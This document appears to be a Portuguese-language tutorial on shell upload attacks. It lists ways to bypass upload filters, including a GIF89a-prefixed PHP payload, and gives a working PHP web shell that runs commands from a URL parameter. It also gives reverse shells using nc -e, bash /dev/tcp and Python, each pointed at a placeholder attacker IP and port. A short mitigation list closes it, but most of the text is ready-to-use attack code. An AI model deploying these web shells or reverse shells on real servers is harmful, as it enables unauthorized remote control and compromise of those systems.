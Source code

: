 # Shell Upload

Shell Upload é uma técnica de ataque onde um invasor faz o upload de um arquivo malicioso (web shell) para um servidor web vulnerável. Esse arquivo pode permitir a execução de comandos remotos, obtenção de acesso ao sistema ou escalonamento de privilégios.

---

### Métodos Comuns de Exploração:

- **Exploração de falhas no upload de arquivos** – Alguns sites permitem upload de arquivos sem verificar adequadamente sua extensão ou conteúdo.

- **Alteração de cabeçalhos HTTP** – Manipular cabeçalhos `Content-Type` pode enganar a verificação do servidor.

- **Dupla extensão** – Enviar arquivos como `shell.php.jpg`, dependendo da configuração do servidor.

- **Bypass em filtros de upload** – Modificar a estrutura do arquivo para evitar bloqueios baseados em assinaturas conhecidas.

---

### Burlar validação do site

Os sistemas web normalmente possuem filtros para impedir o upload de arquivos maliciosos, mas muitas vezes esses filtros podem ser contornados. Algumas técnicas incluem:

- **Alteração de extensão**: Alguns servidores permitem a execução de arquivos `.php5`, `.phtml`, `.phar`.

- **Uso de caracteres especiais**: Inserir caracteres como `%00` (null byte) para enganar verificações de extensão.

- **Codificação**: Esconder código malicioso em imagens (`GIF89a;<?php system($_GET['cmd']); ?>`).

- **Uso de arquivos** `.htaccess`: Configurar o servidor para executar scripts em extensões inesperadas.

---

### shell_exec()

A função `shell_exec()` do PHP permite executar comandos no sistema operacional diretamente do código. Se um invasor conseguir fazer upload de um web shell e chamar essa função, ele pode executar qualquer comando no servidor.

Exemplo de uso:

~~~php
<?php
echo shell_exec("whoami");
?>
~~~

*Isso retorna o nome do usuário que está executando o servidor.*

Alternativas perigosas em PHP:

- `system()`

- `exec()`

- `passthru()`

- `comando (backticks)`

---

### Webshell

Uma webshell é um script malicioso carregado em um servidor para permitir que um atacante execute comandos remotamente. Geralmente são desenvolvidos em PHP, ASP, JSP ou Python.

Exemplo de Webshell PHP:

~~~php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
~~~

*Acessando `http://site.com/shell.php?cmd=whoami`, o invasor pode executar comandos diretamente no sistema.*

---

### Shell reversa

Uma shell reversa permite que um invasor controle um servidor comprometido através de uma conexão estabelecida de dentro para fora. Como firewalls geralmente bloqueiam conexões externas, uma shell reversa força o servidor a se conectar à máquina do invasor, contornando restrições.

Exemplo de comando para abrir uma shell reversa em Linux:

~~~bash
nc -e /bin/sh atacante_ip porta
~~~

Ou em PHP:

~~~php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/ATACANTE_IP/PORTA 0>&1'");
?>
~~~

---

### Python Reverse Shell

Python é muito utilizado para criar shells reversas devido à sua portabilidade.

Exemplo de Shell Reversa em Python:

~~~py
import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("ATACANTE_IP", PORTA))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
~~~

*O código conecta o servidor comprometido ao IP do atacante, redireciona a entrada/saída para o socket e abre um shell interativo.*

---

### Medidas de Mitigação

- Restringir upload de arquivos a tipos seguros (exemplo: `.jpg`, `.png`).

- Validar MIME Type e extensão do arquivo no backend.

- Bloquear a execução de arquivos na pasta de upload.

- Configurar o servidor para evitar execução de scripts em diretórios públicos.

- Monitorar logs e processos suspeitos.

---